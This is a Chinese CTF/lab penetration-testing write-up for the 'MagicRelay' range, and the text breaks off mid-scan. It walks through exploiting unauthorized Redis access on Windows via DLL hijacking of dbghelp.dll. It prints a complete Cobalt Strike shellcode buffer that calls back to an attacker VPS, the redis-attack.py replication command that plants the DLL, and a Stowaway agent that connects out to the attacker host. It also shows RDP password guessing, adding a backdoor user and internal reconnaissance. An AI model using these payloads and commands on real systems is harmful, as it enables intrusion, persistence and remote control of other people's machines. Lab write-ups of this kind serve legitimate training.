








# 春秋云境-MagicRelay-先知社区

> **来源**: https://xz.aliyun.com/news/17082  
> **文章ID**: 17082

---

# MagicRelay

# 外网信息收集

```
root@iZbp1hi0ucdw0mhf0oc21gZ:~/fscan# ./fscan-gw -h 39.98.113.129
start
start infoscan
39.98.113.129:135 open
39.98.113.129:139 open
39.98.113.129:6379 open
39.98.113.129:445 open
39.98.113.129:3389 open
3.010347967s
[*] alive ports len is: 5
start vulscan
[*] NetInfo 
[*]39.98.113.129
   [->]WIN-YUYAOX9Q
   [->]172.22.12.25
[+] Redis 39.98.113.129:6379 unauthorized file:C:\Program Files\Redis/dump.rdb
已完成 4/5 [-] (53/207) rdp 39.98.113.129:3389 administrator Aa12345 remote error: tls: access denied 
已完成 4/5 [-] (104/207) rdp 39.98.113.129:3389 admin 123456789 remote error: tls: access denied 
已完成 4/5 [-] (154/207) rdp 39.98.113.129:3389 guest guest remote error: tls: access denied 
已完成 4/5 [-] (205/207) rdp 39.98.113.129:3389 guest 1q2w3e remote error: tls: access denied 
已完成 5/5
[*] 扫描结束,耗时: 4m12.944180302s
```

发现Redis未授权访问漏洞

### Redis未授权访问漏洞

```
┌──(root㉿DESKTOP-K196DPF)-[/mnt/c/Users/Administrator/Desktop]
└─# redis-cli -h 39.98.113.129
39.98.113.129:6379> info
# Server
redis_version:3.0.504
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:a4f7a6e86f2d60b3
redis_mode:standalone
os:Windows
arch_bits:64
multiplexing_api:WinSock_IOCP
process_id:3356
run_id:28a211760ae86f352a18294f4f623d63a2d68b6b
tcp_port:6379
uptime_in_seconds:708
uptime_in_days:0
hz:10
lru_clock:12563606
config_file:C:\Program Files\Redis\redis.windows-service.conf

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

# Memory
used_memory:693104
used_memory_human:676.86K
used_memory_rss:655328
used_memory_peak:785568
used_memory_peak_human:767.16K
used_memory_lua:36864
mem_fragmentation_ratio:0.95
mem_allocator:jemalloc-3.6.0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1740616146
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok

# Stats
total_connections_received:24
total_commands_processed:28
instantaneous_ops_per_sec:0
total_net_input_bytes:490
total_net_output_bytes:6005942
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0

# Replication
role:master
connected_slaves:0
master_repl_offset:0
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.08
used_cpu_user:0.16
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Cluster
cluster_enabled:0

# Keyspace
```

找到配置文件的绝对路径config\_file:C:\Program Files\Redis
edis.windows-service.conf

参考:<https://xz.aliyun.com/news/13892?time__1311=eqUxuDcDg7SBD%2FD0DdD8mDkKOv%2BGDGTpD&u_atoken=b3a75be672265d77a53604a111e28958&u_asig=0a47319217406169222756739e0032>

|  |  |  |
| --- | --- | --- |
| 方式 | 利用方法 | 利用要求 |
| Webshell | 有IIS服务的情况下，可以尝试往C:/inetpub/wwwroot/写Webshell，其他Web服务要猜目录 | Administrator能直接写，普通用户看运气，Network Service权限写不了 |
| 启动项 | 比如往startup目录写启动项，但需要重启 | Administrator能直接写，普通用户需要猜用户名，Network Service权限写不了 |
| 覆写system32 | 比如把cmd.exe覆写到sethc.exe，然后在RDP登录界面调出命令行窗口 | 要System权限才能写 |
| 加载模块 | 4.x之后的Redis允许用户加载自定义dll，可用主从复制写入恶意DLL，直接加载执行 | 无权限要求，但3.x的Redis并没有模块加载的功能 |
| DLL劫持 | 劫持dbghelp.dll，主从复制写入恶意DLL并通过Redis命令触发 | 无权限要求 |
| 其他花式 | 比如写一个exe马，再整个快捷方式伪装一下放到桌面上，等运维人员打开 | Administrator能直接写，普通用户需要猜用户名，Network Service权限写不了 |

DLL劫持能稳定利用并且对权限没有要求，也不会破坏原本的服务。

## DLL劫持

### 漏洞原理概述

DLL劫持简介

在Windows操作系统中，动态链接库（DLL）用于存放通用代码，供多个应用程序共享使用。当一个程序需要调用DLL中的函数时，它首先会尝试从特定路径加载DLL文件。如果该程序未指定DLL的绝对路径，而是仅指定了DLL的名字，系统将按照预设的顺序搜索DLL文件的位置。这种机制为攻击者提供了机会，通过在高优先级路径放置恶意DLL来实施DLL劫持攻击。

标准的DLL查找顺序

1. 应用程序目录
2. 系统目录（如C:\Windows\System32）
3. 16位系统目录（如C:\Windows\SysWOW64）
4. Windows目录（如C:\Windows）
5. 当前工作目录
6. 系统环境变量PATH中指定的路径

例如，如果"example.exe"尝试加载名为"example.dll"的DLL但没有提供完整路径，系统会在上述顺序中寻找此DLL。若攻击者提前在应用程序目录放置了同名的恶意DLL，该恶意DLL会被优先加载执行。

函数转发劫持

为了不影响目标应用的正常功能，攻击者可能会采用函数转发劫持的方式。这要求攻击者导出原始DLL的所有函数，并确保这些函数能够正确指向原DLL中的对应地址。工具如DLLHijacker可以帮助自动化这一过程，但可能需要针对一些问题进行修复，比如中文乱码、匿名函数处理以及确保正确引用原DLL的绝对路径等。

具体案例：劫持dbghelp.dll

以redis-server.exe为例，在执行bgsave操作时，它首先在其应用目录中查找dbghelp.dll。利用Redis主从复制特性，攻击者可以在应用目录中写入恶意DLL，从而实现劫持。然而，若不正确地处理原DLL的路径，可能导致目标应用的功能异常，甚至无法重启。

正确的DLL劫持不仅不会影响应用程序的功能，还可以重复多次实施不同的攻击策略，如上线命令与控制（CS）或使用Metasploit Framework (MSF)发起反向shell攻击。关键在于保证恶意DLL正确转发对原始DLL函数的调用请求，维持目标应用的正常运行状态。

### 漏洞利用

工具下载地址：<https://github.com/JKme/sb_kiddie-/blob/master/hacking_win/dll_hijack/DLLHijacker.py>

要用修改后的DllHijacker.py和目标DLL路径生成Visual Studio 2019的项目文件：

```
python3 DLLHijacker.py C:\Windows\System32\dbghelp.dll
```



用visual Studio 2019打开项目文件

参考c1trus师傅的方法改一下项目的属性（之前没改好像一直没成功.......）





VPS起一个CS，生成一个C的payload。

```
/* length: 892 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x67\x11\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x34\x73\x66\x50\x00\x88\xaf\x6a\xee\x92\xcc\xd1\x68\xb9\x28\x35\x39\xc3\xa5\x15\x7b\x4e\x6b\x0a\x70\xe8\xac\x17\x53\x60\x7d\xf0\x3f\x2d\x76\x96\x64\xfb\x4f\x08\xf8\x29\xcd\x8b\xe1\xcc\x37\x1b\xa3\x7b\x93\xdf\x6c\xf1\x4b\x20\x30\xa1\x21\x7a\x6f\x22\x69\x34\x21\xdd\xea\xa4\xea\x7d\x8e\x25\xf9\x11\x6c\x63\x09\xb3\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x4d\x41\x41\x52\x4a\x53\x29\x0d\x0a\x00\xf5\x47\x1d\x1c\x17\x3d\x81\x32\x2b\xd8\x59\x74\x67\x0a\x3b\x37\x3e\xfe\xbf\x11\x0e\x99\xae\x43\x6f\x1e\xb4\x94\x7a\x68\xd3\xaa\x83\x7f\xc5\x5f\x8e\xe6\xb5\x9e\x5d\xd5\x1c\x84\x8c\x13\x22\xba\xf2\xca\x3f\x22\xd1\x60\x78\xbf\x93\xa1\x19\x2c\xf5\x2f\x02\xf1\x8e\xee\xb7\x3f\x23\x42\x46\xf2\x71\x23\x93\xe5\xfc\x52\xf0\x49\x5e\xe7\xd4\x57\xe6\xd1\x65\x9c\xfe\x0c\xe4\xcf\xc3\xcf\x95\xf3\xa2\x34\xbb\xac\x9d\x63\x76\xf0\xd4\x7b\xd4\x8c\x95\xac\xdc\x3f\x1d\xac\xc5\x08\x33\x97\xc7\x03\x24\xf8\x0d\xb2\xe2\xb7\x37\x32\x81\xb9\xb0\xbb\xe3\x91\x51\xb8\x02\xfc\xe5\x82\x64\xd0\x4b\x63\xca\xb5\x2d\x23\x5c\x0e\xb8\x59\x3f\x94\xc4\x53\x6e\x39\x08\xf2\xd4\x48\x24\xdf\x9d\x72\x4d\x7c\xc2\x61\xb5\x11\x40\x2a\x8e\xcc\x34\x52\xd8\x7a\x74\x6d\x1c\x4f\xe7\xba\x3e\x0b\x83\x37\x3e\xec\x6d\x09\x08\x04\xf3\x06\xcb\x37\x16\xe8\x3c\x0f\x0e\x97\xfb\x14\x40\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x31\x36\x2e\x36\x32\x2e\x35\x30\x2e\x31\x38\x38\x00\x3a\xde\x68\xb1";
```

然后打开后在源文件的dllmain.app，修改里面的shellocde



选择 Releasex64 生成DLL文件

Redis主从写文件

<https://github.com/0671/RabR>

把生成好的DLL文件上传到RabR文件夹里面，上传到VPS，安全组开放对应的端口，我之前全开了就没管了。

然后主从复制将dbghelp.dll写过去并bgsave

```
python3 redis-attack.py -r 39.99.225.243 -L 116.62.50.188 -wf dbghelp.dll
```



成功上线CS，添加一个后门用户，RDP上去。

## Stowaway搭建第一层代理

### 第一层

攻击机

```
./linux_admin.exe -l 9000 -s 123

[*] Starting admin node on port 9000

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.                 
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.             
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  / 
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /  
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /   
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_  
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__) 
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'      
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 39.99.225.243:52748 is set up successfully! Node id is 0
(admin) >> use 0
(node 0) >> socks 2000
[*] Trying to listen on 0.0.0.0:2000......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 0) >>
```

目标机

```
windows_x64_agent.exe -c 116.62.50.188:9000 -s 123 --reconnect 8
```

# 内网信息收集

```
C:\Users\test$>systeminfo

主机名:           WIN-YUYAOX9Q
OS 名称:          Microsoft Windows Server 2019 Datacenter
OS 版本:          10.0.17763 暂缺 Build 17763
OS 制造商:        Microsoft Corporation
OS 配置:          成员服务器
OS 构件类型:      Multiprocessor Free
注册的所有人:
注册的组织:       Aliyun
产品 ID:          00430-00000-00000-AA952
初始安装日期:     2022/10/29, 10:32:10
系统启动时间:     2025/2/28, 11:01:39
系统制造商:       Alibaba Cloud
系统型号:         Alibaba Cloud ECS
系统类型:         x64-based PC
处理器:           安装了 1 个处理器。
                  [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
BIOS 版本:        SeaBIOS 449e491, 2014/4/1
Windows 目录:     C:\Windows
系统目录:         C:\Windows\system32
启动设备:         \Device\HarddiskVolume1
系统区域设置:     zh-cn;中文(中国)
输入法区域设置:   zh-cn;中文(中国)
时区:             (UTC+08:00) 北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量:     4,095 MB
可用的物理内存:   2,539 MB
虚拟内存: 最大值: 5,503 MB
虚拟内存: 可用:   4,017 MB
虚拟内存: 使用中: 1,486 MB
页面文件位置:     C:\pagefile.sys
域:               xiaorang.lab
登录服务器:       \WIN-YUYAOX9Q
修补程序:         安装了 7 个修补程序。
                  [01]: KB5015731
                  [02]: KB4470788
                  [03]: KB4486153
                  [04]: KB4486155
                  [05]: KB5005112
                  [06]: KB5016623
                  [07]: KB5015896
网卡:             安装了 1 个 NIC。
                  [01]: Red Hat VirtIO Ethernet Adapter
                      连接名:      以太网 2
                      启用 DHCP:   是
                      DHCP 服务器: 172.22.255.253
                      IP 地址
                        [01]: 172.22.12.25
                        [02]: fe80::b426:f95e:dd5f:5c2a
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
```

发现Redis机器加入了域xiaorang.lab

上传fscan扫描

```
C:\Users\test$\Desktop>ipconfig

Windows IP 配置


以太网适配器 以太网 2:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::b426:f95e:dd5f:5c2a%14
   IPv4 地址 . . . . . . . . . . . . : 172.22.12.25
   子网掩码  . . . . . . . . . . . . : 255.255.0.0
   默认网关. . . . . . . . . . . . . : 172.22.255.253

C:\Users\test$\Desktop>fscanPlus_amd64.exe -h 172.22.12.0/24

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
